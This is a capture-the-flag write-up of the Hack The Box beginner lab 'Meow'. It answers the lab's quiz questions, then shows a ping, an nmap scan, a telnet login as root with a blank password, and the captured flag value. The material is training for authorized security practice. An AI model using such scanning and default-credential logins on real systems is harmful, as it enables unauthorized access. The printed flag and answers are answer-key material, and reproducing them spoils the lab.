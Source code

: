 ## Tasks

###### Task 1

What does the acronym VM stand for? 

[Virtual machine](https://en.wikipedia.org/wiki/Virtual_machine)

###### Task 2

What tool do we use to interact with the operating system in order to issue commands via the command line, such as the one to start our VPN connection? It's also known as a console or shell. 

[Terminal](https://en.wikipedia.org/wiki/Terminal_emulator)

###### Task 3

What service do we use to form our VPN connection into HTB labs? 

[openvpn](https://en.wikipedia.org/wiki/OpenVPN)

###### Task 4

What tool do we use to test our connection to the target with an ICMP echo request? 

[ping](https://en.wikipedia.org/wiki/Ping_(networking_utility))
###### Task 5

What is the name of the most common tool for finding open ports on a target? 

[nmap](https://en.wikipedia.org/wiki/Nmap)

###### Task 6

What service do we identify on port 23/tcp during our scans? 

[telnet](https://en.wikipedia.org/wiki/Telnet)

###### Task 7

What username is able to log into the target over telnet with a blank password?

[root](https://en.wikipedia.org/wiki/Superuser)


root flag

ping machine
```shell
[cry_baby@ace ~]$ ping 10.129.190.255
PING 10.129.190.255 (10.129.190.255) 56(84) bytes of data.
64 bytes from 10.129.190.255: icmp_seq=1 ttl=63 time=10.2 ms
64 bytes from 10.129.190.255: icmp_seq=2 ttl=63 time=10.5 ms
64 bytes from 10.129.190.255: icmp_seq=3 ttl=63 time=10.2 ms
64 bytes from 10.129.190.255: icmp_seq=4 ttl=63 time=10.3 ms
^C
--- 10.129.190.255 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3004ms
rtt min/avg/max/mdev = 10.216/10.303/10.452/0.093 ms
```
```shell
[cry_baby@ace ~]$ nmap -sV 10.129.190.255
Starting Nmap 7.95 ( https://nmap.org ) at 2024-08-14 21:50 EDT
Nmap scan report for 10.129.190.255
Host is up (0.010s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
23/tcp open  telnet  Linux telnetd
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.40 seconds
[cry_baby@ace ~]$ telnet 10.129.190.255
Trying 10.129.190.255...
Connected to 10.129.190.255.
Escape character is '^]'.


  █  █         ▐▌     ▄█▄ █          ▄▄▄▄
  █▄▄█ ▀▀█ █▀▀ ▐▌▄▀    █  █▀█ █▀█    █▌▄█ ▄▀▀▄ ▀▄▀
  █  █ █▄█ █▄▄ ▐█▀▄    █  █ █ █▄▄    █▌▄█ ▀▄▄▀ █▀█



Meow login: root
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-77-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu 15 Aug 2024 03:19:20 AM UTC

  System load:           0.0
  Usage of /:            41.7% of 7.75GB
  Memory usage:          4%
  Swap usage:            0%
  Processes:             135
  Users logged in:       0
  IPv4 address for eth0: 10.129.190.255
  IPv6 address for eth0: dead:beef::250:56ff:feb0:9afd

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation

75 updates can be applied immediately.
31 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Mon Sep  6 15:15:23 UTC 2021 from 10.10.14.18 on pts/0
root@Meow:~# ls
flag.txt  snap
root@Meow:~# cat flag.txt 
b40abdfe23665f766f9c61ecba8a4c19
root@Meow:~# 





```

















































































